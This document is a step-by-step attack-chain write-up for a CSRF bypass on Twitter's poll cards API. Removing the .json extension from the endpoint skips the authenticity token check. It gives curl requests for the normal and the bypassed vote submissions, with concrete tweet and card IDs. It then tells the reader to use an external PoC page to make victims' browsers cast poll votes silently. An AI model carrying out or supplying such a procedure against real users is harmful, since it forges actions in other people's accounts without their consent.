

# CSRF Bypass on Twitter Poll Cards API to Force Unauthorized Votes

Multi-stage attack chain demonstrating a CSRF protection bypass on Twitter's cards API endpoint (/i/cards/api/v1.json), where the server enforces CSRF token checks only for the exact path including the .json extension. Attackers can modify the path to /i/cards/api/v1 without the .json extension to bypass the _authenticity_token requirement, allowing unauthorized POST requests to record votes on poll cards. The impact enables crafting CSRF attacks to force authenticated users to vote on polls without knowledge or consent.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Twitter-Cards-CSRF-POC]]
- Web proxy like Burp Suite for request interception

### Target Environment

- Twitter web platform
- Authenticated user session (victim's browser)
- Access to Twitter poll tweet IDs

### Initial Access Requirements

- Victim must be authenticated on Twitter
- Attacker needs a malicious webpage or email to host the CSRF PoC
- No direct credentials needed; exploits browser session

## Detailed Attack Procedures

### Step 1: Analyze Normal Vote Request
procedure: [[procedures/Analyze-Normal-Vote-Request-to-Twitter-Cards-API]]

**Objective**: Intercept and understand the structure of a legitimate poll vote request to the Twitter cards API, identifying the CSRF token requirement.

**Instructions**: Use a web proxy to capture a normal POST request to the protected endpoint. Execute [[commands/normal-vote-submission-to-twitter-cards-api]] to simulate and verify the 403 response without the token:

```bash
curl -X POST "https://twitter.com/i/cards/api/v1.json?tweet_id=657629231309041664&card_name=poll2choice_text_only&forward=false&capi_uri=capi%3A%2F%2Fpassthrough%2F1" \
  -H "Content-Type: application/json" \
  -d '{"twitter:string:card_uri":"card://657629230759415808","twitter:long:original_tweet_id":"657629231309041664","twitter:string:selected_choice":"2"}'
```

**Expected Output**: HTTP 403 Forbidden due to missing _authenticity_token.

**Success Indicators**:
- Request structure captured, including parameters like tweet_id and card_uri
- Confirmation of CSRF enforcement on the .json path

### Step 2: Bypass CSRF by Modifying Endpoint Path
procedure: [[procedures/Bypass-CSRF-by-Modifying-Endpoint-Path]]

**Objective**: Exploit the path mismatch in CSRF checks by removing the .json extension, allowing the request to succeed without the token.

**Instructions**: Modify the captured request by changing the endpoint to /i/cards/api/v1 and omit the _authenticity_token. Execute [[commands/bypassed-vote-submission-without-json-extension]] to test:

```bash
curl -X POST "https://twitter.com/i/cards/api/v1?tweet_id=657629231309041664&card_name=poll2choice_text_only&forward=false&capi_uri=capi%3A%2F%2Fpassthrough%2F1" \
  -H "Content-Type: application/json" \
  -d '{"twitter:string:card_uri":"card://657629230759415808","twitter:long:original_tweet_id":"657629231309041664","twitter:string:selected_choice":"2"}'
```

**Expected Output**: HTTP 200 OK with vote recorded successfully.

**Success Indicators**:
- Vote is recorded without CSRF token
- Server accepts the modified path

### Step 3: Execute CSRF PoC to Force Poll Vote
procedure: [[procedures/Execute-CSRF-POC-to-Force-Poll-Vote]]

**Objective**: Craft a malicious webpage that triggers the bypassed request in the victim's browser to force an unauthorized vote.

**Instructions**: Use the PoC tool to generate the CSRF form. Visit [[tools/Twitter-Cards-CSRF-POC]] at http://innerht.ml/pocs/twitter-cards-csrf/, input poll details (tweet_id=657629231309041664, card_uri=card://657629230759415808, selected_choice=2), and activate the attack to send the silent POST to the bypassed endpoint.

**Expected Output**: Victim's browser submits the request using their session, recording the vote without interaction.

**Success Indicators**:
- Poll vote updated on Twitter without victim action
- No alerts or blocks from CSRF protection

## Attack Chain Summary

### Key Achievements

1. Identified CSRF enforcement flaw tied to exact path matching
2. Bypassed protection by altering the endpoint URL
3. Demonstrated real-world impact via PoC forcing votes on authenticated users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
